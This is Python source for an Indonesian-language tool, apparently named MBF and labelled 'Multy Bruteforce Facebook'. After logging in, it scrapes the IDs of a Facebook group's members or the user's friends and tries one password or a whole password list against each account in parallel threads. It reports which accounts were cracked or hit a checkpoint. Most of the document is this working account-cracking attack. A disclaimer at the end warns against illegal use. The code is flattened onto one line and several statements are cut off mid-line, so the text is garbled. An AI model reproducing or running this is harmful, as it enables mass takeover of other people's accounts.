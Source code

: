 # mbf
from future import print_function import platform,os def tampil (x): w = { 'm' : 31, 'h' : 32 , 'k' : 33 , 'b' : 34 , 'p' : 35 , 'c' : 36} for i in w: x = x.replace( '\r %s ' % i, '\033[ %s ;1m' % w[i]) x += '\033[0m' x = x.replace( '\r0' , '\033[0m' ) print (x) if platform.python_version().split( '.' )[ 0 ] != '2' : tampil( '\rm[!] kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x' % v().split( ' ' )[ 0 ] os.sys.exit() import cookielib,re,urllib2,urllib,threading try: import mechanize except ImportError : tampil( '\rm[!]SepertiNya Module \rcmechanize\rm belum di install...' ) os.sys.exit() def keluar (): simpan() tampil( '\rm[!]Keluar' ) os.sys.exit() log = 0 id_bteman = [] id_bgroup = [] fid_bteman = [] fid_bgroup = [] br = mechanize.Browser() br.set_handle_robots( False ) br.set_handle_equiv( True) br.set_handle_referer( True) br.set_cookiejar(cookielib.LWPCookieJar()) br.set_handle_redirect( True) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time = 1 ) br.addheaders = [( 'User-Agent' , 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Versi def bacaData(): global fid_bgroup,fid_bteman try: fid_bgroup = open(os.sys.path[ 0 ] + '/MBFbgroup.txt' , 'r' ).readlines() except : pass try: fid_bteman = open(os.sys.path[ 0 ] + '/MBFbteman.txt' , 'r' ).readlines() except : pass def inputD (x,v = 0 ): while 1 : try : a = raw_input ( '\x1b[32;1m %s \x1b[31;1m:\x1b[33;1m' % x) except : tampil( '\n\rm[!]Batal' ) keluar() if v: if a.upper() in v: break else: tampil( '\rm[!]Masukan Opsinya Bro...' ) continue else: if len(a) == 0 : tampil( '\rm[!]Masukan dengan benar' ) continue else: break return a def inputM (x,d): while 1 : try : i = int(inputD(x)) except : tampil( '\rm[!]Pilihan tidak ada' ) continue if i in d: break else: tampil( '\rm[!]Pilihan tidak ada' ) return i def simpan (): if len (id_bgroup) != 0 : tampil( '\rh[]Menyimpan hasil dari group' ) try : open(os.sys.path[ 0 ] + '/MBFbgroup.txt' , 'w' ).write( '\n' .join(id_bgroup)) tampil( '\rh[!]Berhasil meyimpan \rcMBFbgroup.txt' ) except : tampil( '\rm[!]Gagal meyimpan' ) if len (id_bteman) != 0 : tampil( '\rh[]Menyimpan hasil daftar Teman...' ) try : open(os.sys.path[ 0 ] + '/MBFbteman.txt' , 'w' ).write( '\n' .join(id_bteman)) tampil( '\rh[!]Berhasil meyimpan \rcMBFbgteman.txt' ) except : tampil( '\rm[!]Gagal meyimpan' ) def buka(d): tampil( '\rh[]Membuka \rp' + d) try: x = br.open(d) br._factory.is_html = True x = x.read() except : tampil( '\rm[!]Gagal membuka \rp' + d) keluar() if '&lt;link rel="redirect" href="' in x: return buka(br.find_link().url) else: return x def login (): global log us = inputD( '[?]Email/HP' ) pa = inputD( '[?]Kata Sandi' ) tampil( '\rh[]Sedang Login....' ) buka( 'https://m.facebook.com' ) br.select_form( nr = 0 ) br.form[ 'email' ] = us br.form[ 'pass' ] = pa br.submit() url = br.geturl() if 'save-device' in url or 'm_sess' in url: tampil( '\rh[]Login Berhasil' ) buka( 'https://mobile.facebook.com/home.php' ) nama = br.find_link( url_regex = 'logout.php' ).text nama = re.findall( r ' ( (. * a ? ) ) ' ,nama)[ 0 ] tampil( '\rh[]Selamat datang \rk %s \n\rh[]Semoga ini adalah hari keberuntungan mu....' % nam log = 1 elif 'checkpoint' in url: tampil( '\rm[!]Akun kena checkpoint\n\rk[!]Coba Login dengan opera mini' ) keluar() else: tampil( '\rm[!]Login Gagal' ) def saring_id_teman (r): for i in re.findall( r '/friends/hovercard/mbasic/ ? uid= (. ? ) &amp;' ,r): id_bteman.append(i) tampil( '\rc==>\rb %s \rm' % i) def saring_id_group1 (d): for i in re.findall( r '&lt;h3>&lt;a href="/ (. ? ) fref=pb' ,d): if i.find( 'profile.php' ) == - 1 : a = i.replace( '?' , '' ) else: a = i.replace( 'profile.php?id=' , '' ).replace( '&amp;amp;' , '' ) if a not in id_bgroup: tampil( '\rk==>\rc %s ' % a) id_bgroup.append(a) def saring_id_group0 (): global id_group while 1 : id_group = inputD( '[?]Id Group' ) tampil( '\rh[]Mengecek Group....' ) a = buka( 'https://m.facebook.com/browse/group/members/?id=' + id_group + '&amp;amp;start=0&amp;amp;lis nama = ' ' .join(re.findall( r '&lt;title> (. ? ) &lt;/title>' ,a)[ 0 ].split()[ 1 :]) try : next = br.find_link( url_regex = '/browse/group/members/' ).url break except : tampil( '\rm[!]Id yang anda masukan salah' ) continue tampil( '\rh[]Mengambil Id dari group \rc %s ' % nama) saring_id_group1(a) return next def idgroup(): if log != 1 : tampil( '\rh[]Login dulu bos...' ) login() if log == 0 : keluar() next = saring_id_group0() while 1 : saring_id_group1(buka( next)) try : next = br.find_link( url_regex = '/browse/group/members/' ).url except : tampil( '\rm[!]Hanya Bisa Mengambil \rh %d id' % len (id_bgroup)) break simpan() i = inputD( '[?]Langsung Crack (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(id_bgroup) else: return menu() def idteman(): if log != 1 : tampil( '\rh[]Login dulu bos...' ) login() if log == 0 : keluar() saring_id_teman(buka( 'https://m.facebook.com/friends/center/friends/?fb_ref=fbm&amp;ref_component=mbasi try: next = br.find_link( url_regex = 'friends_center_main' ).url except : if len (id_teman) != 0 : tampil( '\rm[!]Hanya dapat mengambil \rp %d id' % len (id_bteman)) else: tampil( '\rm[!]Batal' ) keluar() while 1 : saring_id_teman(buka( next)) try : next = br.find_link( url_regex = 'friends_center_main' ).url except : tampil( '\rm[!]Hanya dapat mengambil \rp %d id' % len (id_bteman)) break simpan() i = inputD( '[?]Langsung Crack (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(id_bteman) else: return menu() class mt ( threading . Thread ): def init (self,i,p): threading.Thread. init ( self) self.id = i self.a = 3 self.p = p def update (self): return self.a, self.id def run(self): try: data = urllib2.urlopen(urllib2.Request( url = 'https://m.facebook.com/login.php' , data = urllib.urle except KeyboardInterrupt: os.sys.exit() except : self.a = 8 os.sys.exit() if 'm_sess' in data.url or 'save-device' in data.url: self.a = 1 elif 'checkpoint' in data.url: self.a = 2 else: self.a = 0 def crack (d): i = inputD( '[?]Pake Passwordlist/Manual (p/m)' ,[ 'P' , 'M' ]) if i.upper() == 'P' : while 1 : dir = inputD( '[?]Masukan alamat file' ) try: D = open( dir, 'r' ).readlines() except : tampil( '\rm[!]Gagal membuka \rk %s ' % dir) continue break tampil( '\rh[]Memulai crack dengan \rk %d password' % len(D)) for i in D: i = i.replace( '\n' , '' ) if len(i) != 0 : crack0(d,i, 0 ) i = inputD( '[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(d) else: return menu() else: return crack0(d,inputD( '[?]Sandi' ), 1 ) def crack0 (data,sandi,p): tampil( '\rh[]MengCrack \rk %d Akun \rhdengan sandi \rm[\rk %s \rm]' % ( len(data),sandi)) print ( '\033[32;1m[]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m' , end= '' ) os.sys.stdout.flush() akun_jml = [] akun_sukses = [] akun_cekpoint = [] akun_error = [] akun_gagal = [] jml0,jml1 = 0 , 0 th = [] for i in data: i = i.replace( ' ' , '' ) if len (i) != 0 :th.append(mt(i,sandi)) for i in th: jml1 += 1 i.daemon = True try :i.start() except KeyboardInterrupt: exit() while 1 : try : for i in th: a = i.update() if a[ 0 ] != 3 and a[ 1 ] not in akun_jml: jml0 += 1 if a[ 0 ] == 2 : akun_cekpoint.append(a[ 1 ]) elif a[ 0 ] == 1 : akun_sukses.append(a[ 1 ]) elif a[ 0 ] == 0 : akun_gagal.append(a[ 1 ]) elif a[ 0 ] == 8 : akun_error.append(a[ 1 ]) print ( '\r\033[32;1m[]Cracking \033[31;1m[\033[36;1m %0.2f%s \033[ os.sys.stdout.flush() akun_jml.append(a[ 1 ]) except KeyboardInterrupt: os.sys.exit() try : if threading.activeCount() == 1 : break except KeyboardInterrupt: keluar() print ( '\r\033[32;1m[]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m ' ) if len (akun_sukses) != 0 : tampil( '\rh[]Daftar akun sukses' ) for i in akun_sukses: tampil( '\rh==>\rk %s \rm[\rp %s \rm]' % (i,sandi)) tampil( '\rh[]Jumlah akun berhasil\rp %d ' % len(akun_sukses)) tampil( '\rm[]Jumlah akun gagal\rp %d ' % len(akun_gagal)) tampil( '\rk[]Jumlah akun cekpoint\rp %d ' % len(akun_cekpoint)) tampil( '\rc[]Jumlah akun error\rp %d ' % len(akun_error)) if p: i = inputD( '[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(data) else: return menu() else: return 0 def lanjutT(): global fid_bteman if len (fid_bteman) != 0 : i = inputD( '[?]Riset Hasil Id Teman/lanjutkan (r/l)' ,[ 'R' , 'L' ]) if i.upper() == 'L' : return crack(fid_bteman) else: os.remove(os.sys.path[ 0 ] + '/MBFbteman.txt' ) fid_bteman = [] return 0 def lanjutG(): global fid_bgroup if len (fid_bgroup) != 0 : i = inputD( '[?]Riset Hasil Id Group/lanjutkan (r/l)' ,[ 'R' , 'L' ]) if i.upper() == 'L' : return crack(fid_bgroup) else: os.remove(os.sys.path[ 0 ] + '/MBFbgroup.txt' ) fid_bgroup = [] return 0 def menu(): tampil( '''\rh .-.-.. /+/++// /+/++// \rk* \rh /+/++// \ / |/__// {\rmX\rh}v{\rmX\rh}|\rcPRX\rh|==========. ['] /'|'\ \ / \ \ ' _ _ _ \rk\rhDragonFly ZomBie \rk########################################################### # \rbMULTY BRUTEFORCE FACEBOOK\rk # # \rhBY\rp PIRMANSX \rk# # \rhGroup FB\rp https://m.facebook.com/groups/164201767529837 \rk# # \rhGitHub\rp https://github.com/pirmansx \rk# # \rmDo Not Use This Tool For IllegaL Purpose \rk# ###########################################################''') tampil( '''\rk %s \n\rc1 \rhAmbil id dari group\n\rc2 \rhAmbil id dari daftar teman\n\rc3 \rmKELUAR\n i = inputM( '[?]PILIH' ,[ 1 , 2 , 3 ]) if i == 1 : lanjutG() idgroup() elif i == 2 : lanjutT() idteman() elif i == 3 : keluar() bacaData() menu()
